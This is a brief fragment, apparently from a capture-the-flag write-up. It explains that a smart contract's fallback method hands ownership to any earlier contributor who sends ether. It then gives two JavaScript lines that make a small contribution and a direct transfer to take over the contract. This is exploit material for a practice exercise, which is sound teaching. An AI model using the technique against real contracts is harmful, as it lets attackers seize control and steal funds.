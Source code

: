 the fallback method will change ownership if sent some ether (and has previously contributed)

```
contract.contribute({ value: 1 });
sendTransaction({ from: player, to: instance, value: 1 });
```
